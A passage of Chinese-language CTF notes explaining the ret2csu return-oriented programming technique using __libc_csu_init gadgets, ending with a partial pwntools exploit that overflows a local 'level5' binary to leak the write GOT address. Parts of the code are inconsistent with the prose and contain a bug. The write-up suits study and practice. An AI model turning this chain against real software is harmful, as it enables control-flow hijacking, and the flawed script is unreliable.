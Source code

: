 
### **ret2csu**

##### **什么是ret2csu？**

这个其实就是在程序中一般都会有一段万能的控制参数的gadgets，里面可以控制rbx,rbp,r12,r13,r14,r15以及rdx,rsi,edi的值，并且还可以call我们指定的地址。然后劫持程序执行流的时候，劫持到这个__libc_csu_init函数去执行（这个函数是用来初始化libc的，因此只要是动态链接的程序就都会有这个函数（至少我还没有遇见过特殊情况）），从而达到控制参数的目的。

#### **下面是__libc_csu_init的汇编代码。**

  

#### **如何利用csu这部分代码？**

这里我们可以利用以下几点

从 0x000000000040061A 一直到结尾，我们可以利用栈溢出构造栈上数据来控制 rbx,rbp,r12,r13,r14,r15 寄存器的数据。

从 0x0000000000400600 到 0x0000000000400609，我们可以将 r13 赋给 rdx, 将 r14 赋给 rsi，将 r15d 赋给 edi（需要注意的是，虽然这里赋给的是 edi，但其实此时 rdi 的高 32 位寄存器值为 0（自行调试），所以其实我们可以控制 rdi 寄存器的值，只不过只能控制低 32 位），而这三个寄存器，也是 x64 函数调用中传递的前三个寄存器。此外，如果我们可以合理地控制 r12 与 rbx，那么我们就可以调用我们想要调用的函数。比如说我们可以控制 rbx 为 0，r12 为存储我们想要调用的函数的地址。

从 0x000000000040060D 到 0x0000000000400614，我们可以控制 rbx 与 rbp 的之间的关系为 rbx+1 = rbp，这样我们就不会执行 loc_400600，进而可以继续执行下面的汇编程序。这里我们可以简单的设置 rbx=0，rbp=1。

此时开始执行这部分代码，这没什么好说的了，就是把r13,r14,r15的值放入rdx,rsi,edi三个寄存器里面。

然后由于我们前面的rbx是0，加一之后等于了rbp，因此jnz不跳转。那就继续向下执行，如果我们上面call了一个空函数的话，那我们就利用下面的ret。
![[Pasted image 20240918013537.png]]
如果不需要再一次控制参数的话，那我们此时把栈中的数据填充56（7*8）个垃圾数据即可。

如果我们还需要继续控制参数的话，那就此时不填充垃圾数据，继续去控制参数，总之不管干啥呢，这里都要凑齐56字节的数据，以便我们执行最后的ret，最后ret去执行我们想要执行的函数即可。

##### **下面是这题的演示：**

checksec 开启NX
![[Pasted image 20240918013549.png]]
  
存在着栈溢出
![[Pasted image 20240918013553.png]]
  

这里我们可以看到 rbx，rbp，r12，r13，r14，r15寄存器的其实地址是0x000000000040061A
![[Pasted image 20240918013557.png]]
  

需要的下一个寄存器pop_rdi地址是0x0000000000400623 : pop rdi ; ret

  ![[Pasted image 20240918013601.png]]

下面我们可以构造我们的exp了：

```Plain
from pwn import*
from LibcSearcher import LibcSearcher
p=process('./level5')
elf=ELF('./level5')
write_got=elf.got['write']
pop_5=0x00000000004012aa
#rbx,rbp,r12,r13,r14,r15
pop_rdi=0x00000000004012b3
mov=0x0000000000401290
#rdx<-r12,rsi<-r14,edi<-r15
main=elf.sym['main']
padding= 0x38
payload=flat(b'a'*0x88,p64(pop_5),p64(0),p64(1),p64(write_got),p64(8),p64(write_got),p64(0),p64(mov),p64(b'a'*padding),p64(main))
p.sendline(payload)
recv=u64(p.recv(8))
```